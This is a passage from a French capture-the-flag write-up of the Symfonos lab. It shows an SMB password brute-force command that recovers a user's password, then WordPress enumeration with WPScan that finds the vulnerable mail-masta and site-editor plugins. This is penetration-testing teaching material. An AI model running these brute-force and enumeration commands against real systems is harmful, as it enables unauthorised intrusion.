 J'avais lancé une attaque brute force avec mon outil [GitHub - devl00p/brute_smb_share: Brute force a SMB share](https://github.com/devl00p/brute_smb_share) qui trouve immédiatement le mot de passe de `helios` :

```shellsession
$ python3 brute_smb_share.py 192.168.56.112 helios users.txt rockyou.txt 
Success with user helios and password qwerty
        research.txt
        todo.txt
```

Cependant le mot de passe était aussi mentionné dans le fichier `attention.txt` :

> Can users please stop using passwords like 'epidioko', 'qwerty' and 'baseball'!    
> 
> Next person I find using one of these passwords will be fired!  
> 
> -Zeus

Les nouveaux fichiers texte auquel on a accès sont une description du dieu `Helios` (`research.txt`) :

> Helios (also Helius) was the god of the Sun in Greek mythology. He was thought to ride a golden chariot which brought the Sun across the skies each day from the east (Ethiopia) to the west (Hesperides) while at  
> night he did the return journey in leisurely fashion lounging in a golden cup. The god was famously the subject of the Colossus of Rhodes, the giant bronze statue considered one of the Seven Wonders of the Ancient World.

Ainsi qu'une `todo` mentionnant un path sur le serveur web :

> 1. Binge watch Dexter  
> 2. Dance  
> 3. Work on /h3l105

A cette adresse on trouve un Wordpress qui semble configuré pour le nom d'hôte `symfonos.local`.

## You got mail

Il est important de le spécifier lors du scan avec `WPscan` sans quoi l'énumération ne retourne rien.

```bash
docker run --add-host symfonos.local:192.168.56.112 -it --rm wpscanteam/wpscan --url http://symfonos.local/h3l105/ -e ap,at,u
```

On trouve un étrange plugin nommé `mail-masta` :

```
[+] mail-masta
 | Location: http://symfonos.local/h3l105/wp-content/plugins/mail-masta/
 | Latest Version: 1.0 (up to date)
 | Last Updated: 2014-09-19T07:52:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 1.0 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://symfonos.local/h3l105/wp-content/plugins/mail-masta/readme.txt

[+] site-editor
 | Location: http://symfonos.local/h3l105/wp-content/plugins/site-editor/
 | Latest Version: 1.1.1 (up to date)
 | Last Updated: 2017-05-02T23:34:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 1.1.1 (80% confidence)
```
